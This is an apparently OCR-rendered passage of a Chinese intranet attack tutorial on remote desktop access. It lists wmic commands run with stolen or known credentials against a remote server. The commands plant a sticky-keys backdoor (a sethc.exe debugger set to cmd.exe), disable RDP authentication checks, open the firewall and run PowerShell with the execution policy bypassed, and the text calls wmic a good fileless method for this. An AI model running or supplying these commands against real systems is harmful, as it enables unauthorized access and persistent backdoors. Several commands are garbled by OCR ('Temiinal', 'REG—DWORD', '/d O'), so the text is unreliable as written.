 可能需要运行以下命令进行额外的配置。

```
## 修改防火墙设置为允许远程桌面
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

## 允许远程桌面连接
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v
fDenyTSConnections /t REG_DWORD /d 0 /f
```

以上命令完整的走一遍，个人以 wmic 为演示，wmic 是现在内网无文件比较好的一个方法。

```
wmic /user:[UserName] /password:[Password] /node:[Server] process call create
"C:\Windows\system32\reg.exe ADD \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image
File Execution Options\sethc.exe\" /v Debugger /t REG_SZ /d \"C:\windows\system32\cmd.exe\"
/f"

wmic /user:[UserName] /password:[Password] /node:[Server] process call create
"C:\Windows\system32\reg.exe ADD \"HKLM\SYSTEM\CurrentControlSet\Control\Terminal
Server\WinStations\RDPTcp\" /v UserAuthentication /t REG_DWORD /d 0 /f"

wmic /user:[UserName] /password:[Password] /node:[Server] process call create
"C:\Windows\system32\reg.exe ADD \"HKLM\SYSTEM\CurrentControlSet\Control\Temiinal
Server\WinStations\RDPTcp\" /v SecurityLayer /t REG—DWORD /d O /f"
```



##### 可选命令

```
## 修改防火墙设置为允许远程桌面
wmic /user:[UserName] /password:[Password] /node:[Server] process call create
"C:\Windows\system32\netsh advfirewall firewall set rule group=\"remote desktop\" new
enable=Yes"
## 允许远程桌面连接
wmic /user:[UserName] /password:[Password] /node:[Server] process call create
"C:\Windows\system32\reg.exe ADD
\"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v
fDenyTSConnections /t REG_DWORD /d 0 /f"
```



##### 拓展命令

```
## 查询rdp的端口,注意把默认的十六进制转换成十进制
reg query "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v
PortNumber
## 禁用远程桌面连接
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v
fDenyTSConnections /t REG_DWORD /d 1 /f
## 利用powershell启用禁用rdp:
C:\>powershell -exec bypass
PS C:\> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-
name "fDenyTSConnections" -Value 0
PS C:\> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-
name "fDenyTSConnections" -Value 1
```

